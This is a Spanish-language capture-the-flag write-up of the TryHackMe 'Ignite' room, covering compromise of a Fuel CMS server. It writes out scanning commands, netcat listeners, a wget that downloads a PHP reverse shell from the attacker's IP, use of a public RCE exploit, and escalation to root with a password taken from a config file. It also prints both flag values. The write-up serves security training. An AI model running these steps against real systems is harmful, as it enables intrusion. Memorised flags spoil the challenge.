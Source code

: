 # Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![Imagen](images/Pasted%20image%2020250128103258.png)

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![[Pasted image 20250204105623.png]]

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![[Pasted image 20250212170404.png]]

Descubrimos un login:

![[Pasted image 20250212170436.png]]

El fuzzing nos da los mismos resultados:

![[Pasted image 20250212170557.png]]

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![[Pasted image 20250212170659.png]]

Accedimos a un panel de administración del sitio web.

![[Pasted image 20250212170830.png]]

En la pestaña de `assets` podemos subir un archivo.

![[Pasted image 20250212172318.png]]

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![[Pasted image 20250212172546.png]]

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![[Pasted image 20250212182655.png]]

Nos descargamos el exploit.

![[Pasted image 20250212182715.png]]

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![[Pasted image 20250212182759.png]]

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![[Pasted image 20250220172524.png]]

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![[Pasted image 20250220172721.png]]

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![[Pasted image 20250220172838.png]]

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![[Pasted image 20250220173032.png]]

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![[Pasted image 20250220173141.png]]

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![[Pasted image 20250220174600.png]]

![[Pasted image 20250220174621.png]]

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.

![[Pasted image 20250220174734.png]]

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![[Pasted image 20250220180034.png]]

Obtenemos la primera **flag**:

![[Pasted image 20250220180225.png]]

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![[Pasted image 20250220180945.png]]

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![[Pasted image 20250220182137.png]]

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![[Pasted image 20250220182314.png]]

```
b9bbcb33e11b80be759c4e844862482d
```





























